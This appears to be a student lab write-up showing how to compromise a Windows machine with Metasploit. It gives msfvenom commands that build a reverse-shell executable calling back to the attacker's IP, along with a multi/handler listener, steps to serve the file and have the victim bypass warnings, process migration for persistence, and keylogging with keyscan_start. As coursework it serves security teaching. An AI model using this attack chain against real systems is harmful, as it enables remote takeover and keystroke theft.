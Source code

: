 # Reg no: 212224040232
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

![1con](https://github.com/user-attachments/assets/0d25e9d9-c4b8-4ac8-ac9f-345b4ec13e00)

Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![2venom](https://github.com/user-attachments/assets/488fa0a4-6c42-491c-af54-2ce2a5b3cebc)

copy the fun.exe into the apache /var/www/html folder

![3cp](https://github.com/user-attachments/assets/8c032d11-68d5-4cc4-92c0-9cee47f59626)

Start apache server
sudo systemctl apache2 start

![4sys](https://github.com/user-attachments/assets/e63fed3e-ece1-49ed-bf4c-c51562e9821f)

Check the status of apache2

![5stat](https://github.com/user-attachments/assets/e0b4745e-2798-4a07-8cc6-04851015a04e)

Invoke msfconsole:

![6msfc](https://github.com/user-attachments/assets/64acdbd3-c086-4101-95b6-ce6e4d81b73b)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![7help](https://github.com/user-attachments/assets/4e8232ee-33aa-4455-8a72-391b4eff3d01)


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![8](https://github.com/user-attachments/assets/39b60011-8a30-4c59-bab3-083e062e2632)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

![8download](https://github.com/user-attachments/assets/a26d4eb4-dbc9-4a69-8328-a0fa2cfdf942)

Bypass any warning boxes, double-click the file, and allow it to run.

![9show](https://github.com/user-attachments/assets/8a60e1e0-626d-4d52-a331-18887ba75425)

On kali give the command exploit

![10com](https://github.com/user-attachments/assets/1218d326-1024-4702-83f1-8eac34ba66a4)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running 

![11sho](https://github.com/user-attachments/assets/472c76bb-f732-4508-9d82-92bcc8f7b255)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

![12mig](https://github.com/user-attachments/assets/39eab6b3-a07a-4412-8760-2de39ec788b7)

at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted

![13sho](https://github.com/user-attachments/assets/f7c48cdc-d11f-4515-b053-87173525947b)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![15keyscan](https://github.com/user-attachments/assets/ddfc16fa-9ae9-44dd-880f-7d15c2feb0c1)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
